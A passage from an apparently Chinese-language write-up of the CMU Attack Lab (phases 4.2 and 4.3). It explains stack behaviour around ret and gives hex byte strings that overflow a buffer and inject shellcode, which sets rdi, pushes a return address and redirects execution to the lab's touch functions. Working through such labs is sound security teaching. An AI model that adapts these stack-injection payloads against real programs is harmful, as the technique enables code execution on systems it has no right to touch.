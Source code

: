 让我们来回忆我们什么时候改过rsp？？或者说这和4-1的rsp有什么不同？（因为4-1我们是成功了的）咦，好像从来没有改过啊？ 谁会改变rsp? 难道是ret?  啊，确实是它！下面是ret的本质：

ret == pop %rax      +     jmp %rax  即 **ret 等价于 (rax = *rsp++, jmp rax)**

所以我们比 4-1 的rsp 多前进了 8个字节，即我们已经超出了16个字节，等等？为什么是超出了16个字节非法，而八个字节就合法呢? 不应该都非法吗？ 哈哈，因为cmu的老师们已经为我们处理好了，每次一进入touch函数，sub   $0x8,%rsp（当时我第一次看到touch1想了半天这语句开了8字节空间，又不用，搁这浪费？哈哈后来才明白老师的用心良苦），所以之后就不会非法啦！~

好！接下来的问题就只剩   "如何让 rsp --"

1. 我们是否可以减少ret数量？ 不行，这样无法设置参数，这路走不通

2. 我们是否即可即入栈又让--rsp ？ 这个好像可以，诶，等等！ 这不就是pushq嘛  ！！

   所以答案改成：

   ```C
   48 c7 c7 fa 97 b9 59 /* mov $0x59b997fa,%rdi */
   68 ec 17 40 00 /*pushq 0x00000000004017ec */
   c3 /* ret */
   00 00 00 00 00 00 00 00 
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00   /* 补齐至40 */
   78 dc 61 55 00 00 00 00  /* 去栈底执行 */
   ```

### 4.3

这一题需要做什么？ 需要传送string的首地址到touch3中，这个string就是cookie的字符串表示

难点在于如何保存 string，并且保证其在传递到rdi时是有效的。

如果我们继续像4-2那样，将string保存在 getbuf的栈中，**是会被覆盖的**，我尝试了别的博主的这种做法，错了，不过是因为segmentation fault，是和4-2一样的错误。 下面是这个被覆盖的提示，来自lab附带的pdf

![image-20211227163215344](https://gitee.com/wzjia/picture/raw/master/image-20211227163215344.png)

我想到了两种方案：

1. 借用4-2的思想，去栈底然后在返回之前将 string放到 0x5561dca0，这样就不会被覆盖了，但是这很麻烦，mov $string,%rax 这条指令我当时是会翻译出换行（导致读入错误），并且我还要保存rax，并且还要回复，这太麻烦了。所以我放弃了这个方案
2. 将string写到test的栈里，这样就很安全了，因为我们的string就可以在rsp的上面，而不会被覆盖，当然这样就覆盖了别的值，不过毕竟我们是攻击者，本来就是来破坏栈的。这个方案也比较好实现。**所以我们就直接到test的栈里面去执行**

直接看答案吧：最后一行的注释是第7行的，因为放在那总是不能通过，所以放下面了。string要翻译为ASCII的形式

``` c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  
/* 0x5561dca0 */    b8 dc 61 55 00 00 00 00     /* to 0x5561dcb8 */
/* 0x5561dca8 */    35 39 62 39 39 37 66 61 
/* 0x5561dcb0 */    00 00 00 00 00 00 00 00   
/* 0x5561dcb8 */    48 c7 c7 a8 dc 61 55      /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00     /* pushq  $0x4018fa */ 
c3 00 00 00        /* ret */ 
/* 加多一个0在str末尾， 这里补齐了八个字节，事实上不补齐也可以PASS*
```
